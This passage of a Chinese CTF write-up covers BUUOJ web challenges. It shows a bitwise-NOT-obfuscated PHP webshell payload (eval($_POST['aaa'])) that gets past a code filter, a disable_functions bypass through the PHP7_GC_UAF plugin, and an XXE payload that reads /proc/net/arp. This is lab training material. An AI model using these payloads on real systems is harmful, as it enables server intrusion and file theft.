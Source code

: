 看似很简单，其实学问多，

传入`?code=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo`可查看phpinfo；

能看到有很多disable_functions，版本为PHP7

构造shell连接蚁剑：

```
<?php 
  error_reporting(0);
  $a='assert';
  $b=urlencode(~$a);
  echo $b;
  echo "<br>";
  $c='(eval($_POST['aaa']))';
  $d=urlencode(~$c);
  echo $d;
?>
```

得到：

```
%9E%8C%8C%9A%8D%8B
%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%9E%9E%A2%D6%D6
```

playload

```
http://3494239d-8b3b-438f-9f91-21df2d0ffd65.node3.buuoj.cn/?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9E%9E%9E%A2%D6%D6);
密码aaa
```

可以得到一个不能执行命令的shell，

利用蚁剑的插件“绕过disable_functions”的PHP7_GC_UAF即可执行命令，运行根目录下的readflag就行

flag{a7900948-cbea-429d-972b-a959c52771be}

 

 

 

### [[NCTF2019\]True XML cookbook](https://buuoj.cn/challenges#[NCTF2019]True%20XML%20cookbook)

考点：XXE外部实体注入攻击、SSRF

吊把吊教我打web的🐏出的题，二刷的时候感觉自己今非昔比（大雾

[>>一篇文章带你理解XXE](https://xz.aliyun.com/t/3357)

这是签到题的升级版，本来是通过XXE读/flag文件的，升级版提示了“尝试用xxe做更多的事情”

读取`/etc/hosts`和`/proc/net/arp`

```
<?xml version="1.0"?>
<!DOCTYPE abc [
  <!ENTITY abc SYSTEM "/proc/net/arp">
]>
<user><username>&abc;</username><password>2</password></user>
```
